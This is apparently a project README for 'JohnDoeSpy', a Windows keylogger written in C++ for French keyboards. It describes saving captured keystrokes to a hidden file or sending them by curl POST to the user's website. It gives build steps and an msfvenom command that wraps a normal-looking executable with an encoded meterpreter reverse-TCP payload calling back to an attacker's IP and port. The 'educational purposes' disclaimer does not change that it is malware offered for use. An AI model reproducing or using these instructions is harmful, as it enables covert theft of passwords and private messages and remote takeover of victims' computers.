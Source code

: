 # JohnDoeSpy

# Introduction
<p> This is a simple keylogger for educational purposes. I'm not responsible of your usage. </p>
<p> Keylogger build in C++ for detect keys from keyboards (specific keys only available for french keyboard). You can receive data from url intermediate hosting or by simple text file hidden in your directory. </p>


# HAVE TO KNOW 

<p> This keylogger is build for french keyboard, by the way specific characters will appear with bad matching if you use an other country's keyboard. But any others characters show on <p/>

### WORK ONLY FOR WINDOWS ###


## How to start

* Open terminal from root path project 
* <code> cd build\dllToExe </code>
* <code> pefrmdllembed.exe -impinj KeyloggerV1.exe libcurl-d.dll zlibd1.dll <NameKeylogger.exe> </code>
* Launch <NameKeylogger.exe>
  
  
 ## Payload metasploit
 
 <code> msfvenom -x .\JohnnyLounch.exe -p windows/meterpreter_reverse_tcp -f exe -e x86/shikata_ga_nai lhost=192.168.1.80 lport=4444  -o JohnnyLounchMeterpreter2.exe </code>

### $_POST['text'] matching request curl for receive data on your website.
### You have an example in web directory

